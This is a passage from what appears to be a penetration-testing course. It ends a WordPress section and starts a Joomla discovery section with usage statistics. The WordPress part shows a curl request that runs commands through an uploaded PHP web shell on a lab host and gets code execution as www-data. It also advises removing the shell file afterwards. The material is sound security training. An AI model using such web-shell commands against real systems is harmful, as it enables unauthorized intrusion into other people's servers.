 The exploit as written may fail, but we can use `cURL` to execute commands using the uploaded web shell. We just need to append `?cmd=` after the `.php` extension to run commands which we can see in the exploit script.

```shell
curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

In this example, we would want to make sure to clean up the `uthsdkbywoxeebg-1629904090.8191.php` file and once again list it as a testing artifact in the appendices of our report.

* * *

## Moving On

As we have seen from the last two sections, WordPress presents a vast attack surface. During our careers as penetration testers, we will almost definitely encounter WordPress many times. We must have the skills to quickly footprint a WordPress installation and perform thorough manual and tool-based enumeration to uncover high-risk misconfigurations and vulnerabilities. If these sections on WordPress were interesting, check out the [Attacking WordPress module](https://academy.hackthebox.com/course/preview/hacking-wordpress) for more practice.


# Joomla - Discovery & Enumeration

* * *

[Joomla](https://www.joomla.org/), released in August 2005 is another free and open-source CMS used for discussion forums, photo galleries, e-Commerce, user-based communities, and more. It is written in PHP and uses MySQL in the backend. Like WordPress, Joomla can be enhanced with over 7,000 extensions and over 1,000 templates. There are up to 2.5 million sites on the internet running Joomla. Here are some interesting [statistics](https://websitebuilder.org/blog/joomla-statistics/) about Joomla:

- Joomla accounts for 3.5% of the CMS market share
- Joomla is 100% free and means "all together" in Swahili (phonetic spelling of "Jumla")
- The Joomla community has close to 700,000 in its online forums
- Joomla powers 3% of all websites on the internet, nearly 25,000 of the top 1 million sites worldwide (just 10% of the reach of WordPress)
- Some notable organizations that use Joomla include eBay, Yamaha, Harvard University, and the UK government
- Over the years, 770 different developers have contributed to Joomla

Joomla collects some anonymous [usage statistics](https://developer.joomla.org/about/stats.html) such as the breakdown of Joomla, PHP and database versions and server operating systems in use on Joomla installations. This data can be queried via their public [API](https://developer.joomla.org/about/stats/api.html).
